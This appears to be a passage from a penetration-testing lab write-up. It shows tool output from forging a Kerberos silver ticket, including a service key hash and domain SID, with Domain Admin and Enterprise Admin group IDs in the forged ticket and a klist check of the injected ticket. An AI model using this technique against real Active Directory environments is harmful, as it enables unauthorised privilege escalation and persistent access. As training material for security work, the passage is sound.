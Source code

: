 **Silver Ticket Creation Output:**
```
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session
```

**Automatic Privilege Assignment:**
- **User ID 500**: Built-in local administrator
- **Group 512**: Domain Admins
- **Group 513**: Domain Users
- **Group 518**: Schema Admins
- **Group 519**: Enterprise Admins
- **Group 520**: Group Policy Creator Owners

### Ticket Verification and Usage

**Verify Ticket Injection:**
```powershell
# List cached Kerberos tickets
klist
```

**Ticket Verification Output:**
```
Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

